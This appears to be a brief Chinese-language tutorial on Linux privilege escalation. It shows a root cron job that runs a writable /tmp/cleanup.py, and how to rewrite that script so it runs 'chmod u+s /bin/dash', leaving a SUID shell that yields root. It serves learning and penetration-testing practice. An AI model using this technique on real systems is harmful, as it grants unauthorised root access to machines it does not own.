

Cron Jobs 计划任务 通过 /etc/crontab 文件，可以设定系统定期执行的任务。

crontab 文件只能是root权限 进行编辑，我们得到一个非root权限的远程登录用户的时候，查看/etc/crontab 内容文件，发现存在 

 

每两分钟执行一次文件 ，找到 /tmp/cleanup.py 

```python
#!/usr/bin/env python
import os
import sys
try:
       os.system('rm -r  /home/moonteam/cleanup/*')
except:
	sys.exit()
```

两分钟执行一次文件，删除cleanup目录下全部文件

 

 查看权限 

```bash
ls -l /tmp/cleanup.py
```

修改内容

```bash
os.system('chmod u+s /bin/dash') 
```

把 /bin/dash设置SUID权限  运行之后就会得到 root权限

使用命令dash 

 